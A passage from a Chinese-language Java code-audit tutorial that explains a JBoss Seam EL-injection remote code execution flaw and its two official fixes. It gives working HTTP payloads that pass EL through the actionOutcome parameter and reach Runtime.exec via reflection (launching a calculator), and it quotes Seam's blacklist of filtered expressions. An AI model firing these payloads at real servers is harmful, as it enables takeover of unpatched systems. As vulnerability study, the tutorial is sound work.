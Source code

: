 ![1.png](https://github.com/cn-panda/JavaCodeAudit/blob/master/%E3%80%9005%E3%80%91RCE%20%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86%E4%B8%8E%E5%AE%9E%E9%99%85%E6%A1%88%E4%BE%8B%E4%BB%8B%E7%BB%8D/img/15.png?raw=true)

网上也有其他形式的 payload，首先使用`getDeclaredMethods()`得到所有方法，然后采用数组的形式调用指定方法。

假设我们想知道`java.lang.Runtime.getRuntime()`的方法是多少序号，那么可以尝试访问：

```http
/seam-booking/home.seam?actionOutcome=/test.xhtml?xxx=%23{expressions.getClass().forName('java.lang.Runtime').getDeclaredMethods()[0]}
```

![1.png](https://github.com/cn-panda/JavaCodeAudit/blob/master/%E3%80%9005%E3%80%91RCE%20%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86%E4%B8%8E%E5%AE%9E%E9%99%85%E6%A1%88%E4%BE%8B%E4%BB%8B%E7%BB%8D/img/16.png?raw=true)

返回的是：

```http
/seam-booking/test.seam?xxx=public+void+java.lang.Runtime.exit%28int%29&cid=143
```

明显不是我们想要的`java.lang.Runtime()`，可以继续尝试`getDeclaredMethods()[1]`

最终得到结果如下：

`getDeclaredMethods()[6]`等价于`java.lang.Runtime.getRuntime.exec()`

`getDeclaredMethods()[13]`等价于`java.lang.Runtime.getRuntime()`

因此最后的 payload 就为：

```http
/seam-booking/home.seam?actionOutcome=/test.xhtml?canshu=%23{expressions.getClass().forName('java.lang.Runtime').getDeclaredMethods()[13].invoke(expressions.getClass().forName('java.lang.R
untime').getDeclaredMethods()[6].invoke(null), 'gnome-calculator')}
```

执行效果：

![1.png](https://github.com/cn-panda/JavaCodeAudit/blob/master/%E3%80%9005%E3%80%91RCE%20%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86%E4%B8%8E%E5%AE%9E%E9%99%85%E6%A1%88%E4%BE%8B%E4%BB%8B%E7%BB%8D/img/17.png?raw=true)



#### 4、修复方案

针对于本漏洞，官方修了两次

https://securitytracker.com/id?1024253

https://securitytracker.com/id/1028601

第一次是对`actionOutcome`中检查是否包含`#{`等字符做了检查，这样完全使得 EL 表达式不能通过 http 传参的方式传入解析。第二次是对另一个参数`actionId`的修复，这里简单说下这个漏洞。

Seam 2.2.2.Final以后， JBoss创建了一个黑名单，`/src/main/org/jboss/seam/blacklist.properties`，针对以下内容进行了过滤：

```
.getClass()
.addRole(
.getPassword(
.removeRole(
```
